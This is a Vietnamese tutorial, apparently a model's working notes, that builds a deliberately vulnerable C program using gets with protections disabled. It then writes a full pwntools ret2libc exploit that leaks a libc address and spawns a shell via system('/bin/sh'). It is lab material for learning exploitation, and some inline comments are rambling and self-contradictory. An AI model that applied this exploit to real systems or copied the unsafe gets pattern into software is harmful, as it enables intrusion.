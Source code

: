 Chúng ta sẽ xây dựng một chương trình đơn giản, toàn bộ code trong hàm main, sử dụng hàm `gets` để gây lỗi tràn bộ đệm, và dùng `puts` để in ra một giá trị từ GOT (trong trường hợp này, chúng ta có thể leak địa chỉ của `gets` hoặc `puts`). 
Chương trình sẽ không có hàm con nào khác ngoài `main`. Chúng ta sẽ tắt các bảo vệ để dễ dàng thực hiện khai thác.
Code chương trình C (vuln_simple.c):
```c
#include <stdio.h>
#include <string.h>
int main() {
    char buffer[64];
    setbuf(stdout, NULL);
    printf("Nhập input: ");
    gets(buffer); // Hàm không an toàn -> Buffer Overflow
    puts(buffer); // In lại buffer để minh họa, nhưng chúng ta sẽ dùng puts để leak địa chỉ
    return 0;
}
```
Biên dịch:
```bash
gcc vuln_simple.c -o vuln_simple -fno-stack-protector -no-pie -z execstack
```
Bây giờ, chúng ta sẽ xây dựng exploit. Vì chương trình không gọi bất kỳ hàm con nào, chúng ta phải leak địa chỉ libc bằng cách sử dụng chính hàm `puts` đã có trong chương trình.
Các bước:
1. Tìm offset từ buffer đến return address.
2. Tìm gadget `pop rdi; ret` (cần thiết để truyền tham số cho hàm).
3. Xây dựng payload đầu tiên:
   - Ghi đè return address bằng địa chỉ của gadget `pop rdi; ret`.
   - Đặt vào RDI địa chỉ GOT của một hàm (vd: `gets` hoặc `puts`).
   - Gọi `puts@plt` để in địa chỉ thực của hàm đó trong libc.
   - Quay lại hàm main (hoặc một địa điểm nào đó) để thực hiện lần overflow thứ hai.
4. Tính toán địa chỉ base của libc và địa chỉ của `system` và chuỗi "/bin/sh".
5. Xây dựng payload thứ hai để gọi `system("/bin/sh")`.
Tuy nhiên, trong chương trình này, chúng ta không có hàm `main` được gọi lại sau khi in. Vì vậy, chúng ta có thể quay lại ngay sau lệnh `call gets` (tức là quay lại địa chỉ trong hàm main) để chương trình tiếp tục bị overflow lần nữa.
Nhưng để đơn giản, chúng ta có thể kết thúc payload đầu tiên bằng địa chỉ của hàm `main` (để bắt đầu lại chương trình). Điều này giúp chúng ta có thể gửi payload thứ hai.
Vậy, chúng ta cần địa chỉ của `main` (có thể lấy từ binary).
### Exploit script:
```python
from pwn import *
# Mở chương trình
elf = context.binary = ELF('./vuln_simple')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Điều chỉnh nếu cần
p = process('./vuln_simple')
# Bước 1: Tìm offset
# Tạo pattern và tìm offset (có thể dùng gdb hoặc tính toán)
# Ở đây, chúng ta biết buffer 64 byte, nhưng còn các phần khác (saved rbp) nên offset có thể là 64 + 8 = 72?
# Nhưng tốt nhất nên kiểm tra bằng gdb.
# Giả sử chúng ta đã tìm được offset = 72 (sau buffer 64 byte và 8 byte saved rbp)
# Bước 2: Tìm gadget pop rdi
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
# Bước 3: Payload leak địa chỉ
payload1 = b'A' * 72
payload1 += p64(pop_rdi)
payload1 += p64(elf.got['gets'])   # Chúng ta sẽ leak địa chỉ của gets
payload1 += p64(elf.plt['puts'])   # Gọi puts để in địa chỉ gets
payload1 += p64(elf.sym['main'])   # Quay lại main để tiếp tục
p.recvuntil(b'Nhập input: ')
p.sendline(payload1)
# Nhận dữ liệu in ra (bao gồm cả chuỗi chúng ta nhập và địa chỉ leak)
# Sau khi gửi, chương trình in ra buffer (phần 'A'*72 và sau đó là địa chỉ leak) 
# Chúng ta cần bỏ qua 72 byte 'A' và 8 byte tiếp theo (có thể là saved rbp) và sau đó là địa chỉ leak
# Nhưng thực tế, chương trình in ra buffer (72 byte A) và sau đó là phần tiếp theo? 
# Để chắc chắn, chúng ta có thể đọc đến khi gặp dòng mới, và sau đó lấy 6 byte (vì địa chỉ 64-bit, nhưng thường chỉ có 6 byte có nghĩa)
# Sau khi gửi, chương trình in ra:
#   'A'*72 + [saved rbp] + [địa chỉ pop_rdi] + ... nhưng thực tế chỉ in đến khi gặp null byte.
# Tuy nhiên, khi chúng ta gọi puts(gets@got), nó sẽ in địa chỉ của gets (một địa chỉ 64-bit) không có null byte ở giữa, nhưng có thể có null byte ở đầu? (tùy vào ASLR)
# Chúng ta sẽ nhận dòng đầu tiên là 72 byte 'A' và có thể thêm 8 byte (saved rbp) nhưng không quan trọng, vì sau đó chương trình in địa chỉ gets (6 hoặc 7 byte) và sau đó là newline.
# Để đơn giản, chúng ta có thể đọc dòng đầu tiên (chứa 72 byte A) và sau đó đọc 8 byte tiếp theo (saved rbp) và sau đó là địa chỉ gets? 
# Nhưng thực tế, sau 72 byte A, chúng ta có 8 byte saved rbp (có thể là 'AAAA...' trong payload) và sau đó là địa chỉ pop_rdi, ... nhưng khi chương trình thực thi, nó sẽ gọi puts(gets@got) và in ra 1 dòng chỉ chứa địa chỉ gets (và có thể có thêm dữ liệu rác nếu không có null byte).
# Cách tốt hơn: sau khi gửi payload1, chương trình in ra:
#   payload1 (cho đến khi gặp null) -> nhưng gets không thêm null, nên nó in cả payload1? 
#   Tuy nhiên, hàm puts sẽ dừng khi gặp null byte. Trong payload1, chúng ta có các địa chỉ, có thể có null byte (nếu địa chỉ nhỏ). 
#   Vì vậy, chúng ta cần đọc hết dòng đầu tiên (bị cắt bởi null) và sau đó là kết quả của puts(gets@got) (một dòng riêng).
# Chúng ta có thể sử dụng:
p.recvline()  # Dòng đầu tiên chính là buffer chúng ta nhập (bị cắt nếu có null) -> nhưng trong payload1, 72 byte A không có null, nên nó in 72 byte A và sau đó là gì? 
# Thực tế, do gets kết thúc bằng null, nên buffer của chúng ta kết thúc tại 72 byte A? Và sau đó chương trình in bằng puts(buffer) -> in 72 byte A và dừng? 
# Nhưng trong chương trình, sau gets, chúng ta gọi puts(buffer) -> in ra buffer cho đến khi gặp null. Vậy nó in 72 byte A? 
# Sau đó, chương trình thực thi payload1: gọi puts(gets@got) -> in ra một dòng nữa (địa chỉ gets) và sau đó là ký tự newline.
# Vậy chúng ta có:
p.recvline()  # 72 byte 'A' -> b'A'*72
leak_line = p.recvline()  # Dòng tiếp theo chứa địa chỉ gets
leaked_gets = u64(leak_line.strip().ljust(8, b'\x00'))
log.success(f"Leaked gets address: {hex(leaked_gets)}")
# Bước 4: Tính libc base
libc.address = leaked_gets - libc.sym['gets']
system_addr = libc.sym['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
# Bước 5: Gửi payload2
payload2 = b'A' * 72
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
p.recvuntil(b'Nhập input: ')
p.sendline(payload2)
p.interactive()
```
Tuy nhiên, có một vấn đề: sau khi gọi `puts(gets@got)`, chương trình quay lại `main`, và chúng ta lại gặp lời nhắc "Nhập input: ". Nhưng khi chương trình chạy lại, stack có thể bị dịch chuyển một chút, nhưng vì chúng ta đã tính offset 72, nó vẫn đúng.
Lưu ý: Trong lần chạy lại, chúng ta không cần phải leak nữa, nên gửi payload2 ngay.
Chúng ta cũng cần đảm bảo rằng chương trình không bị crash giữa chừng. Nếu có vấn đề về stack alignment, có thể thêm một gadget `ret` trước khi gọi `system`.
Chỉnh sửa: Trong payload2, thêm một `ret` để căn chỉnh stack (nếu cần):
```python
ret_gadget = rop.find_gadget(['ret'])[0]
payload2 = b'A' * 72
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(ret_gadget)   # Thêm ret để căn chỉnh stack (nếu cần)
payload2 += p64(system_addr)
```
Vậy, script hoàn chỉnh:
```python
from pwn import *
# Set up
context.binary = elf = ELF('./vuln_simple')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Điều chỉnh nếu cần
p = process('./vuln_simple')
# Tìm ROP gadgets
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
# Offset
offset = 72
# Payload 1: Leak địa chỉ gets
payload1 = flat(
    b'A' * offset,
    pop_rdi,
    elf.got['gets'],
    elf.plt['puts'],
    elf.sym['main']   # Quay lại main
)
p.recvuntil(b'Nhập input: ')
p.sendline(payload1)
# Leak địa chỉ
p.recvline()  # Bỏ qua dòng in buffer (72 byte A)
leak_line = p.recvline().strip()  # Địa chỉ gets
if len(leak_line) < 8:
    leak_line = leak_line.ljust(8, b'\x00')
leaked_gets = u64(leak_line[:8])
log.info(f"Leaked gets: {hex(leaked_gets)}")
# Tính libc base
libc.address = leaked_gets - libc.sym['gets']
system_addr = libc.sym['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
log.info(f"Libc base: {hex(libc.address)}")
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(bin_sh_addr)}")
# Payload 2: Gọi system("/bin/sh")
payload2 = flat(
    b'A' * offset,
    pop_rdi,
    bin_sh_addr,
    ret,          # Căn chỉnh stack (nếu cần)
    system_addr
)
p.recvuntil(b'Nhập input: ')
p.sendline(payload2)
p.interactive()
```
Chạy thử và kiểm tra.
Lưu ý: Nếu bạn gặp lỗi về địa chỉ (vd: leak không đúng), hãy kiểm tra xem có đúng là leak địa chỉ của `gets` không, và kiểm tra phiên bản libc.
Ngoài ra, nếu không tìm thấy gadget `ret`, có thể dùng địa chỉ `pop_rdi+1` (nếu có) hoặc tìm một gadget `ret` khác. Thường thì gadget `ret` có địa chỉ là `pop_rdi+1` (vì `pop rdi; ret` -> sau lệnh pop là ret).
Trong trường hợp không tìm thấy gadget `ret` riêng, có thể bỏ qua nếu không cần căn chỉnh.
Tuy nhiên, trên hệ thống 64-bit, trước khi gọi hàm, stack cần phải căn 16-byte. Vì khi vào hàm, `call` sẽ đẩy 8 byte (return address) nên trước đó stack phải chia hết cho 16. Trong payload2, trước khi gọi `system`, stack pointer (rsp) phải thỏa mãn `rsp % 16 == 0` trước lệnh `call`. 
Chúng ta gọi `system` bằng `call` (trong PLT) nên nó cũng đẩy return address (8 byte). Trước `call` (tức là tại thời điểm `system` nhảy vào), rsp phải bằng 0 mod 16. 
Trước khi chúng ta gọi `system`, chúng ta đã có:
- `pop rdi`: pop 1 giá trị (8 byte) -> rsp tăng 8.
- `ret` (trong gadget `ret`): tương đương `pop rip` -> rsp tăng 8.
Vậy trước `call system`, rsp đã tăng 16 byte so với sau khi ghi đè return address. Nếu tại thời điểm return (khi chúng ta ghi đè return address) rsp chia hết cho 16, thì sau 2 lần pop (16 byte) rsp vẫn chia hết cho 16.
Nhưng nếu tại thời điểm return (sau khi ghi đè) rsp % 16 = 8, thì sau 2 pop (16 byte) rsp % 16 = (8+16) % 16 = 8, không chia hết. 
Vì vậy, chúng ta cần thêm một `ret` (tức là một lần pop rip nữa) để tăng rsp thêm 8, khiến rsp chia hết cho 16.
Cụ thể, trong payload2:
```
payload2 = 
   b'A'*72 
   + p64(pop_rdi)   -> ret addr: sau khi ret, rsp = rsp_original + 72 + 8 (địa chỉ pop_rdi)
   + p64(bin_sh_addr) -> pop rdi sẽ pop cái này -> rsp +=8
   + p64(ret)        -> ret: pop rip (lấy địa chỉ ret, nhưng ret không làm gì) -> rsp +=8
   + p64(system_addr) -> gọi system, lúc này rsp = rsp_original + 72 + 8 + 8 + 8 = rsp_original + 96. 
```
Mà 96 % 16 = 0 -> đảm bảo alignment.
Vì vậy, việc thêm `ret` là cần thiết để căn chỉnh stack.
Nếu không có vấn đề gì, chúng ta sẽ lấy được shell.
Ghi chú: Trong script, chúng ta dùng `flat` để tạo payload cho dễ.